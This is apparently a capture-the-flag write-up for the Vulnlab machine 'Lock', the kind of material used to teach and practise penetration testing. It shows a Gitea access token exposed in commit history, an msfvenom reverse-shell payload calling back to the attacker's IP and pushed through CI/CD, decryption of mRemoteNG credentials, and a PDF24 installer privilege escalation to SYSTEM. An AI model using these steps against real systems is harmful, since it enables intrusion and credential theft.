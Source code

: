 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Lock/logo.png
date: 2024-06-23 09:45:47 +07:00
modified: 2024-06-23 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: kozmer
  link: https://app.hackthebox.com/users/637320
tags: [Gitea, access token, repository, reverse shell, privilege escalation, mRemoteNG, mRemoteNG decryptor, PDF24, MSI installer, Windows, shell access, CI/CD integration]
title: Lock - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Retro is an **easy** difficulty machine where enumeration revealed a static website on port 80 and a Gitea instance on port 3000. Exploring Gitea, a repository by ellen.freeman contained a script with an exposed access token, leading to the cloning of a hidden "website" repository with CI/CD integration. A reverse shell was injected and executed, gaining access as ellen.freeman. In her Documents, a config file for mRemoteNG with encrypted credentials was found and decrypted, allowing access to Gale's account. A local privilege escalation vulnerability in PDF24 was exploited, ultimately obtaining a SYSTEM-level shell and the root flag.

# Enumeration

```
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3000/tcp open  ppp
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
```

I started by looking at port 80 with some directory brute-forcing by nothing interesting. It seems like it's a static website.

![](https://photos.squarezero.dev/file/abir-images/Lock/0.png)

Next, I visited port 3000 and It was running Gitea.

![](https://photos.squarezero.dev/file/abir-images/Lock/1.png)

I explored the Gitea instance and found **dev-scripts** repo by **ellen.freeman** and it looks like it's a script for accessing Gitea with the access token.

![](https://photos.squarezero.dev/file/abir-images/Lock/2.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/3.png)

After that, I checked the previous commits and found an exposed access token of **ellen.freeman**.

![](https://photos.squarezero.dev/file/abir-images/Lock/4.png)

# Shell as Ellen Freeman

I downloaded the script and after running it, it showed another hidden repository called **website**.

![](https://photos.squarezero.dev/file/abir-images/Lock/5.png)

After researching for a bit I found out that I can clone a repository using an access token.

`git clone http://ellen.freeman:<REDACTED>@lock.vl:3000/ellen.freeman/website.git`

![](https://photos.squarezero.dev/file/abir-images/Lock/6.png)

Inside the repository, there was a README.md where it stated that the git repo would be automatically deployed after. And after looking at the repo carefully it seems like its the website hosted on port 80.

```
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver
```

![](https://photos.squarezero.dev/file/abir-images/Lock/7.png)

I created a reverse shell and used git to push the shell into the main website.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.2.110 LPORT=4444 -f aspx -o shell.aspx`

```bash
#Add username and email
git config --global user.name ellen.freeman
git config --global user.email ellen.freeman@lock.vl

#Stage the shell
git add shell.aspx 

#Commit with a message
git commit -m 'shell'

#Update the repo
git push
```

I made a request with curl and got a reverse shell.

`curl http://lock.vl/shell.aspx`

![](https://photos.squarezero.dev/file/abir-images/Lock/8.png)

# Ellen.freeman to Gale.dekarios

Inside Ellen's Document folder, there was a config file.

```
C:\USERS\ELLEN.FREEMAN        
|   .git-credentials
|   .gitconfig
|   
+---.ssh      
|       authorized_keys       
|   
+---3D Objects
+---Contacts  
+---Desktop   
+---Documents 
|       config.xml  
|   
+---Downloads 
+---Favorites 
|   |   Bing.url    
|   |         
|   \---Links 
+---Links     
|       Desktop.lnk 
|       Downloads.lnk         
|   
+---Music     
+---Pictures  
+---Saved Games     
+---Searches  
\---Videos
```

The config file is for ***mRemoteNG*** which contains an encrypted password for the user.

![](https://photos.squarezero.dev/file/abir-images/Lock/9.png)


I used ***mremoteng-decryptor*** to decrypt the config file and found credential for remote access. And after logging in I got the user flag.

![](https://photos.squarezero.dev/file/abir-images/Lock/10.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/11.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/12.png)

# Gale.dekarios to root

On the desktop, I saw PDF24 and after looking online I found a local Privilege escalation for it.

[Local Privilege Escalation via MSI installer in PDF24](https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-msi-installer-in-pdf24-creator-geek-software-gmbh/)

![](https://photos.squarezero.dev/file/abir-images/Lock/13.png)

After looking in the hidden folders I found ***_install folder*** which contains the installer for PDF24.

![](https://photos.squarezero.dev/file/abir-images/Lock/14.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/15.png)

Next, I opened 2 terminals and in one of them I set the oplock on the PDF24 log file and after that in another terminal, I executed the installer with MSI just like it's said in the article.

`msiexec.exe /fa pdf24-creator-11.15.1-x64.msi`

`.\SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r`

![](https://photos.squarezero.dev/file/abir-images/Lock/16.png)

After waiting for a little bit a new CMD window opened and I followed alone the article to spawn a cmd shell as an administrator within the legacy console mode.

* Right-click on the top bar of the cmd window.
* click on properties.
* under options click on the “legacy console mode” link.
* open the link with a browser other than Internet Explorer or Edge (both don't open as SYSTEM when on Win11).
* in the opened browser window press the key combination CTRL+o.
* type “cmd.exe” in the top bar and press Enter.

![click on the properties](https://photos.squarezero.dev/file/abir-images/Lock/17.png)


![legacy console mode](https://photos.squarezero.dev/file/abir-images/Lock/18.png)


![Click Internet Explorer or Edge](https://photos.squarezero.dev/file/abir-images/Lock/19.png)


![Press the key combination CTRL+o](https://photos.squarezero.dev/file/abir-images/Lock/20.png)


![Type “cmd.exe” in the top bar and press Enter](https://photos.squarezero.dev/file/abir-images/Lock/21.png)

Now with the administrator shell, I got the root flag.